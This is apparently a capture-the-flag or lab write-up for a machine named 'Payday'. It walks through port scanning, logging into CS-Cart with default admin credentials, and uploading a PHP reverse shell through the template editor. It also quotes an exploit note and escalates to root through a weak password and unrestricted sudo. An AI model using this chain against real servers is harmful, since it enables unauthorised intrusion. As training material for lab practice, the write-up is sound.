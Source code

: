 # Payday

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.39 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 13:42 +08
Nmap scan report for 192.168.157.39
Host is up (0.18s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3
```

### CS-Cart --> RCE

Port 80 was running InternetShop CS-Cart, which looks really vulnerable:

<figure><img src="../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

There are loads of exploits for this:

```
$ searchsploit cs-cart
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                          | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting           | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                          | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion        | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting         | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                          | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                      | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection          | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection     | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection               | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                 | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection             | php/webapps/40770.txt
----------------------------------------------------------- ---------------------------------
```

We can take a look at the authenticated RCE, since we can login using `admin:admin`.&#x20;

```
$ cat 48891.txt
get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...! 
```

We can then access `admin.php` with the same credentials:

<figure><img src="../../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

Head to 'Template Editor' and upload the file that we want.&#x20;

<figure><img src="../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

Then, just run this:

```bash
$ curl http://192.168.157.39/skins/rev.phtml
```

And we would get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Weak Creds --> Root

We can `su` to the user `patrick` using the password `patrick`. This user can run `sudo` for everything:

```
patrick@payday:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
```

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

